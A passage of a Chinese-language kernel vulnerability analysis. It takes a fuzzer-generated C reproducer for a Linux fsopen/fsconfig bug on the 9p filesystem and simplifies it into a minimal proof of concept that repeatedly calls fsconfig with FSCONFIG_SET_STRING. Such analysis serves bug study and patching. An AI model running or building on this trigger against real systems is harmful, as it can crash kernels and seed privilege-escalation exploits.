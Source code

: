 ```c
	intptr_t res = 0;
	memcpy((void*)0x20000000, "9p\000", 3);
	res = syscall(__NR_fsopen, 0x20000000ul, 0ul);
	if (res != -1)
		r[0] = res;
	memcpy((void*)0x20001c00, "\000\000\344]\233", 5);
	memcpy((void*)0x20000540, "<long string>", 641);
	syscall(__NR_fsconfig, r[0], 1ul, 0x20001c00ul, 0x20000540ul, 0ul);
	int i;
	for(i = 0; i < 64; i++) {
		syscall(__NR_fsconfig, r[0], 1ul, 0x20001c00ul, 0x20000540ul, 0ul);
	}
	memset((void*)0x20000040, 0, 1);
	memcpy((void*)0x20000800, "<long string>", 641);
	syscall(__NR_fsconfig, r[0], 1ul, 0x20000040ul, 0x20000800ul, 0ul);
	for(i = 0; i < 64; i++) {
		syscall(__NR_fsconfig, r[0], 1ul, 0x20000040ul, 0x20000800ul, 0ul);
	}
	return 0;
}
```

**PoC美化**：这段PoC看上去很难理解，还包含一些无关的调用，只能通过人工分析来去除无关代码。例如，mmap映射了很多区域，但只用到了`0x20000000ul`，所以可以去掉无关的mmap调用；`uint64_t r[1] = {0xffffffffffffffff};` 实际上就是 `int r = -1`；还要将地址转化为变量或常量，有的调用 `memcpy()` 将 `9P` 字符串拷贝到buffer并将该buffer传给syscall，实际上我们可以直接传字符串即可，不需要这么复杂，最终转化为以下代码：

```c
int r = -1;
int main(void) {
	int res = 0;
	res = syscall(__NR_fsopen, "9p", 0ul);
	if (res != -1)
		r = res;
}
```

经过很多分析，对比input和相关内核函数，最终生成一个简化的PoC：调用 `fsconfig` 需传入 `FSCONFIG_SET_STRING` 和两个字符串 key / value，value必须以NULL结尾，最后一个参数必须为0

```c
#define _GNU_SOURCE
#include <sys/syscall.h>
#include <stdio.h>
#include <stdlib.h>
#ifndef __NR_fsconfig
#define __NR_fsconfig 431
#endif
#ifndef __NR_fsopen
#define __NR_fsopen 430
#endif
#define FSCONFIG_SET_STRING 1
#define fsopen(name, flags) syscall(__NR_fsopen, name, flags)
#define fsconfig(fd, cmd, key, value, aux) syscall(__NR_fsconfig, fd, cmd, key, value, aux)
int main(void) { 
	char* key = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
	int fd = 0;
	fd = fsopen("9p", 0);
	for (int i = 0; i < 130; i++) { 
		fsconfig(fd, FSCONFIG_SET_STRING, "\x00", key, 0);
	}
}
```
